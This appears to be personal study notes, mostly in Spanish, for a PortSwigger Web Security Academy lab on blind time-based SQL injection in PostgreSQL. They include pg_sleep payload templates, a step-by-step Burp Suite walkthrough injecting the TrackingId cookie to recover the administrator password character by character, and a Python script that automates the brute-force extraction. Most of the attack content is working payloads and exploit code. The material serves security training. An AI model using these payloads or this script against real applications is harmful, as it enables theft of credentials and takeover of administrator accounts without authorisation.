

#### columns dump time based

```c
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name limit 1

select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name where column_name='value' limit 1

```


1. Visite la página principal de la tienda y utilice Burp Suite para interceptar y modificar la solicitud que contiene la `TrackingId`cookie.
2. Modificar la `TrackingId`cookie, cambiándola por:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`
    
    Verifique que la aplicación tarde 10 segundos en responder.
    
3. Ahora cámbialo a:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`
    
    Verifique que la aplicación responda de inmediato y sin demoras. Esto demuestra cómo se puede probar una sola condición booleana e inferir el resultado.
    
4. Ahora cámbialo a:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    
    Verifique que la condición sea verdadera, confirmando que hay un usuario llamado `administrator`.
    
5. El siguiente paso es determinar cuántos caracteres tiene la contraseña del `administrator`usuario. Para ello, cambie el valor a:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    
    Esta condición debe ser verdadera, lo que confirma que la contraseña tiene más de 1 carácter.
    
6. Envía una serie de valores de seguimiento para probar distintas longitudes de contraseña. Enviar:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    
    A continuación, enviar:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    
    Y así sucesivamente. Puedes hacerlo manualmente usando [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater) , ya que es probable que la longitud sea corta. Cuando la condición deja de ser verdadera (es decir, cuando la aplicación responde inmediatamente sin un retraso de tiempo), has determinado la longitud de la contraseña, que en realidad tiene 20 caracteres.
    
7. Después de determinar la longitud de la contraseña, el siguiente paso es probar el carácter en cada posición para determinar su valor. Esto implica una cantidad mucho mayor de solicitudes, por lo que debe utilizar [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder) . Envíe la solicitud en la que está trabajando a Burp Intruder, utilizando el menú contextual.
8. En la pestaña Posiciones de Burp Intruder, cambie el valor de la cookie a:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    
    Esto utiliza la `SUBSTRING()`función para extraer un solo carácter de la contraseña y probarlo con un valor específico. Nuestro ataque recorrerá cada posición y valor posible, probando cada uno de ellos por turno.
    
9. Coloque marcadores de posición de carga útil alrededor del `a`carácter en el valor de la cookie. Para ello, seleccione solo el `a`y haga clic en el botón "Agregar §". Entonces debería ver lo siguiente como valor de la cookie (observe los marcadores de posición de carga útil):
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
10. Para probar el carácter en cada posición, deberá enviar las cargas útiles adecuadas en la posición de carga útil que haya definido. Puede suponer que la contraseña contiene solo caracteres alfanuméricos en minúscula. Vaya a la pestaña Cargas útiles, verifique que esté seleccionada la opción "Lista simple" y, en "Configuración de carga útil", agregue las cargas útiles en el rango a - z y 0 - 9. Puede seleccionarlas fácilmente utilizando el menú desplegable "Agregar de la lista".
11. Para saber cuándo se envió el carácter correcto, deberás controlar el tiempo que tarda la aplicación en responder a cada solicitud. Para que este proceso sea lo más confiable posible, debes configurar el ataque Intruder para que emita solicitudes en un solo hilo. Para ello, ve a la pestaña "Grupo de recursos" y agrega el ataque a un grupo de recursos con la opción "Máximo de solicitudes simultáneas" establecida en `1`.
12. Inicie el ataque haciendo clic en el botón "Iniciar ataque" o seleccionando "Iniciar ataque" en el menú Intruso.
13. Burp Intruder monitorea el tiempo que tarda en recibirse la respuesta de la aplicación, pero por defecto no muestra esta información. Para verla, ve al menú “Columnas” y marca la casilla “Respuesta recibida”.
14. Revise los resultados del ataque para encontrar el valor del carácter en la primera posición. Debería ver una columna en los resultados llamada "Respuesta recibida". Esta generalmente contendrá un número pequeño, que representa la cantidad de milisegundos que la aplicación tardó en responder. Una de las filas debería tener un número mayor en esta columna, en la región de 10 000 milisegundos. La carga útil que se muestra para esa fila es el valor del carácter en la primera posición.
15. Ahora, simplemente tienes que volver a ejecutar el ataque para cada una de las otras posiciones de caracteres en la contraseña, para determinar su valor. Para ello, vuelve a la ventana principal de Burp y a la pestaña Posiciones de Burp Intruder, y cambia el desplazamiento especificado de 1 a 2. Entonces deberías ver lo siguiente como el valor de la cookie:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
16. Lanza el ataque modificado, revisa los resultados y observa el carácter en el segundo desplazamiento.
17. Continúe este proceso probando el desplazamiento 3, 4, y así sucesivamente, hasta que tenga la contraseña completa.
18. En el navegador, haga clic en "Mi cuenta" para abrir la página de inicio de sesión. Utilice la contraseña para iniciar sesión como `administrator`usuario.

```c
import requests
from pwn import * 
import time

#Cookie: TrackingId=cUnp1Gkl2HtZ4Jyi; session=dkPDdDnDrJzIT2wJYQGR2CYgbeWn2sMh
host='0ac000cd044ff97b81f517a000d70092.web-security-academy.net'
letters='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~'
session='tKnlc10JAbJjsaPI8nSBEBCkq167uWUH'
id='UPjejKHSEADdIxhW'

url_main=f'https://{host}'
url_request=f'{url_main}/filter?category=Pets'

#payload = "cUnp1Gkl2HtZ4Jyi' AND (SELECT SUBSTR(schema_name,1,1) FROM information_schema.schemata='u')"

def ctrl_C(signal, frame):
    print('[+] exit')
    exit(1)

def valid_sql_injection():
    payload = "%s' ||(select 1 from pg_sleep(10))--" % (id)
    return send_request(payload)


def get_name_credentials(letters):
    if valid_sql_injection():
        p1=log.progress('Brute Force sleep to 10s')
        p2=log.progress('Password')
        password=''
        for start in range(1,21):
            for word in letters:
                #select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name where column_name='value' limit 1
                payload = "%s' ||(select case when substring(password,%d,1)='%s' then pg_sleep(10) else pg_sleep(0) end from users where username='administrator' limit 1)--" %(id,start,word)
                p1.status("%s" % payload)
                if send_request(payload):
                    password+=word
                    p2.status('%s' % (password))
                    break
                p2.status('%s' % (password))
    else:
        print('[+] Error, sql injection not found ')

        
def send_request(payload):
    
    cookies = {
          'TrackingId': payload,
          'session': session
          }
        #Cookie': TrackingId=UPjejKHSEADdIxhW'||(select case when substring(password,1,1)='fuzz' then pg_sleep(5) else pg_sleep(0) end from table_name where username='administrator' limit 1)--; session=tKnlc10JAbJjsaPI8nSBEBCkq167uWUH
    headers = {
        'Host': host,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'es-ES,es;q=0.5',
        'Accept-Encoding': 'gzip, deflate, br',
        'Dnt': '1',
        'Referer': url_request,
        'Upgrade-Insecure-Requests': '1',
        'Sec-Fetch-Dest': 'document',
        'Sec-Fetch-Mode': 'navigate',
        'Sec-Fetch-Site': 'same-origin',
        'Sec-Fetch-User': '?1',
        'Te': 'trailers'


          }
    
    time_start=time.time()

    response = requests.get(url_request, cookies=cookies,headers=headers)

    time_end=time.time()

    if time_end - time_start>10:
        return True
    else:
        return False
    #print(f"An error occurred: {e}")


if __name__ == "__main__":
    signal.signal(signal.SIGINT,ctrl_C)
    #print(valid_sql_injection())
    get_name_credentials(letters)
```



